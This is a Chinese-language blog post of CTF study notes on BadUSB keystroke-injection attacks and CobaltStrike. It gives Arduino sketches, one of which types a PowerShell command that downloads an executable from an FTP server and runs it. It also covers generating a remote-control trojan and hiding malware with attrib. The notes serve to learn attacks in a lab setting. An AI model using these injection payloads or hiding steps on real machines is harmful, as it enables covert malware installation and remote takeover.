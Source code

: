 ```yaml
---
title: CTF学习笔记（大学篇）02 —— BadUSB & CobaltStrike
date: 2022-04-16 08:22:03
tags: [CTF, HID, CobaltStrike, Powershell]
categories: CTF
---
```


### HID设备

人类接口设备，就是直接与人类进行交互的设备（鼠标、键盘之类的）

### HID攻击

插入一定的设备，设备有一定的标识符（例如Keyboard、Mouse），插入后就可以运行烧录在BadUSB上的指令来输入恶意代码，把木马植入计算机之中。（伪造用户击键行为等）

### USB HID攻击 VS 摆渡攻击

前者运用的是伪造的HID设备执行恶意代码，摆渡攻击是在U盘等设备放置木马程序，隐藏在存储介质之中。

### USB HID攻击特点

- 隐蔽性强
- 攻击范围广
- 权限高

攻击范围是只要能够支持USB HID接口协议的设备均可用。

### 相关编程语句

#### 默认内容

```C++
void setup() {

}

void loop() {

}
```

- `void setup()`函数内的代码只运行一次
- `void loop()`函数内的代码会一直循环运行

#### 运行cmd并打开记事本，输入相关内容

```c++
#include<Keyboard.h>
void setup() {
  // put your setup code here, to run once:
Keyboard.begin();
delay(1000);

Keyboard.press(KEY_LEFT_GUI);//win键
delay(500);
Keyboard.press('r');//r键
delay(500);
Keyboard.release(KEY_LEFT_GUI);//win键释放
Keyboard.release('r');//r键释放

Keyboard.press(KEY_CAPS_LOCK);//若目标机开启大小写，关掉即可
Keyboard.release(KEY_CAPS_LOCK);//若目标机没有开启，也不影响
delay(500);
Keyboard.println("cmd");
Keyboard.press(KEY_RETURN);
Keyboard.release(KEY_RETURN);//目标机开启中文或开启大小写键
delay(500);

//弹出记事本
Keyboard.println("notepad.exe");
delay(500);
delay(500);//可防止丢帧
Keyboard.println("you are hacked!!!");
Keyboard.println("you are hacked!!!");
Keyboard.println("you are hacked!!!");
Keyboard.press(KEY_CAPS_LOCK);//若目标机开启大小写，关掉即可
Keyboard.release(KEY_CAPS_LOCK);
Keyboard.end();//结束键盘通讯
}

void loop() {
  // put your main code here, to run repeatedly:
}
```

- `Keyboard.press`就表示按下按键，用`Keyboard.release`松开
- `KEY_LEFT_GUI`表示左边的Win按键
- `Keyboard.begin()`开启键盘通讯，`Keyboard.end()`来表示结束
- 因为插入设备的时候目标主机可能处于中文输入法，所以用`Keyboard.press(KEY_CAPS_LOCK)`打开大小写锁定，然后来输入命令，这样输入的就是英文字符而不受到中文输入法的限制了，输入完了以后记得用`Keyboard.release(KEY_CAPS_LOCK)`松开
- `Keyboard.begin()`下面的`delay(1000)`：一般来说，设备插入后计算机需要启动驱动，在这里加入延迟就是为了给计算机启动驱动的时间（甚至是安装驱动，diss一下win7以下的那堆），当然一般是3秒5秒，1秒还是太短了
- 按键的定义如下（键盘按键+编码）

```c++
///Alt和Ctrl和Shift
#define KEY_LEFT_CTRL   0x80
#define KEY_LEFT_SHIFT    0x81
#define KEY_LEFT_ALT    0x82
#define KEY_LEFT_GUI    0x83
#define KEY_RIGHT_CTRL    0x84
#define KEY_RIGHT_SHIFT   0x85
#define KEY_RIGHT_ALT   0x86
#define KEY_RIGHT_GUI   0x87
///方向键系列
#define KEY_UP_ARROW    0xDA
#define KEY_DOWN_ARROW    0xD9
#define KEY_LEFT_ARROW    0xD8
#define KEY_RIGHT_ARROW   0xD7
//特殊键位，其中RETURN就是回车
#define KEY_BACKSPACE   0xB2
#define KEY_TAB       0xB3
#define KEY_RETURN      0xB0
#define KEY_ESC       0xB1
///特殊键位，我比较常用的是DELETE
#define KEY_INSERT      0xD1
#define KEY_DELETE      0xD4
#define KEY_PAGE_UP     0xD3
#define KEY_PAGE_DOWN   0xD6
#define KEY_HOME      0xD2
#define KEY_END       0xD5
#define KEY_CAPS_LOCK   0xC1
///F区的这些那些
#define KEY_F1        0xC2
#define KEY_F2        0xC3
#define KEY_F3        0xC4
#define KEY_F4        0xC5
#define KEY_F5        0xC6
#define KEY_F6        0xC7
#define KEY_F7        0xC8
#define KEY_F8        0xC9
#define KEY_F9        0xCA
#define KEY_F10       0xCB
#define KEY_F11       0xCC
#define KEY_F12       0xCD
#define KEY_F13       0xF0
#define KEY_F14       0xF1
#define KEY_F15       0xF2
#define KEY_F16       0xF3
#define KEY_F17       0xF4
#define KEY_F18       0xF5
#define KEY_F19       0xF6
#define KEY_F20       0xF7
#define KEY_F21       0xF8
#define KEY_F22       0xF9
#define KEY_F23       0xFA
#define KEY_F24       0xFB
```

#### 利用FTP服务器存储病毒文件，利用BadUSB执行下载命令后运行

```C++
#include "Keyboard.h"

void setup() 
{
  Keyboard.begin();
  delay(2000);
  Keyboard.press(KEY_LEFT_GUI);//win键 
  delay(500); 
  Keyboard.press('r');//r键 
  delay(500); 
  Keyboard.release(KEY_LEFT_GUI); //win键 释放
  Keyboard.release('r'); //r键 释放
  delay(500);
  Keyboard.println("powershell $p=new-object system.net.webclient;$p.downloadfile('FTP://admin:123456@169.254.202.247/calc.exe','F:\\calc.exe');START F:\\calc.exe");
  Keyboard.end();//结束键盘通讯 
}

void loop() 
{
}

```

- FTP协议写法：`ftp://<username>:<password>@<address>:<port>`，可以通过这种方式将用户名和命令写入而无需弹出验证窗口

### CobaltStrike用法

首先需要打开Teamserver

![](https://cdn1.tianli0.top/gh/Vikutorika/assets@master/img/CTF-in-College-2/%E7%AE%A1%E7%90%86%E5%91%98__%E8%8E%B7%E5%8F%96%E7%AE%A1%E7%90%86%E5%91%98%E6%9D%83%E9%99%90%20-%2020220416-164025.png)

然后再打开CS，连接Teamserver

![](https://cdn1.tianli0.top/gh/Vikutorika/assets@master/img/CTF-in-College-2/Connect%20-%2020220416-164031.png)

接着就会弹出主界面

![](https://cdn1.tianli0.top/gh/Vikutorika/assets@master/img/CTF-in-College-2/Cobalt_Strike%20-%2020220416-164039.png)

然后我们生成一个木马程序，这个程序运行后就会在主界面显示肉鸡，可以进行远程操作等操作

![](https://cdn1.tianli0.top/gh/Vikutorika/assets@master/img/CTF-in-College-2/Windows_Executable%20-%2020220416-164049.png)

![](https://cdn1.tianli0.top/gh/Vikutorika/assets@master/img/CTF-in-College-2/Choose_a_payload_to_stage%20-%2020220416-164045.png)

### 隐藏木马病毒

一般来说，木马下载到计算机内后，如果不隐藏很快就会被发现（这不是当然的嘛，一个不明觉厉的exe在那里谁都会感觉奇怪吧）

所以在Windows下，我们可以将文件进行隐藏，使用`attrib`命令就可以做到这一点，例如

```powershell
attrib +s +h '.\Virus.exe'
```

隐藏后可以用命令行打开（直接输入`.\Virus.exe`就行了），但是在文件资源管理器里面看不到

在Linux下，可以在文件的最前面加一个点（`.`），会被Linux认为是隐藏文件，就在文件管理器中看不到啦
